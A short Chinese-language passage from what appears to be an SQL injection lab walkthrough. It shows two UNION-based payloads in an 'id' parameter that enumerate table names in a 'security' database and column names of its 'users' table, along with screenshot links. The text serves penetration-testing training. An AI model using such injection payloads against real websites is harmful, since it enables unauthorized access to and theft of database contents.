 已知了当前数据库为 security ，查看表名

```
?id=-1' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema='security'),4,5,6 --+
```

<img src="图片\Snipaste_2023-01-20_11-45-33.png" alt="Snipaste_2023-01-20_11-45-33" style="zoom:67%;" />

找到我们需要的表 users ，查看它的字段名

```
?id=-1' union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='users'),4,5,6 --+
```

<img src="图片\Snipaste_2023-01-20_11-53-43.png" alt="Snipaste_2023-01-20_11-53-43" style="zoom:67%;" />

